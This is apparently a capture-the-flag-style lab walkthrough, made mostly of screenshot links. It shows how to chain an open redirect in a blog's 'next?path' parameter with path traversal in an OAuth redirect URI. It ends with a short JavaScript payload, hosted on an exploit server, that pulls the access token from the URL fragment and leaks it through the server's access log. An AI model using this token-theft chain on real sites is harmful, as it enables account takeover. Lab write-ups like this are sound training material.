 <img width="1413" height="406" alt="image" src="https://github.com/user-attachments/assets/95503f3a-3c77-462b-b6ec-d5176dcb2224" />

In the  blog post we clicked on next post

<img width="1058" height="822" alt="image" src="https://github.com/user-attachments/assets/f5ee2e2b-8870-4052-a3f8-a4a79c38bb6c" />


We see request of next post in http history which we can check if it redirect us to external domain

<img width="1601" height="491" alt="image" src="https://github.com/user-attachments/assets/2ff633ed-3464-49c7-ad52-18d952876b8c" />


Yes `next?path` is redirecting us to external domain


<img width="1189" height="238" alt="image" src="https://github.com/user-attachments/assets/944d5a21-ecaf-4028-9ef0-e2ac5c61f560" />

Now apply path traversal in in `/../post/next?path=http://goggle.com` to check that the auth request redirected us to external domain


<img width="1428" height="513" alt="image" src="https://github.com/user-attachments/assets/44686c92-803a-455a-90b8-64bbed4a0661" />

And we follow redirectcon it will take us to `google.com`

<img width="1346" height="517" alt="image" src="https://github.com/user-attachments/assets/3355b7d5-37ad-45d8-b8e2-2b1b82c52b5d" />


Explot server we store hello world

<img width="1179" height="759" alt="image" src="https://github.com/user-attachments/assets/3268bb14-3427-405d-ab45-332adf3e7b6f" />


change redirecturl to exploit sever

<img width="1456" height="424" alt="image" src="https://github.com/user-attachments/assets/72a00d0f-f654-4ab4-9c9f-65c52d2d02ef" />




And follow above redirection gives us hello world which we store on exploit server

<img width="1464" height="569" alt="image" src="https://github.com/user-attachments/assets/5e954053-69c2-446d-a90c-89217f97ed2b" />

We can also see above request in Access log

<img width="1910" height="178" alt="image" src="https://github.com/user-attachments/assets/70c200f1-e4b2-4b14-941d-c4f50cbf1123" />


On the exploit server, create a suitable script at /exploit that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:



```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```
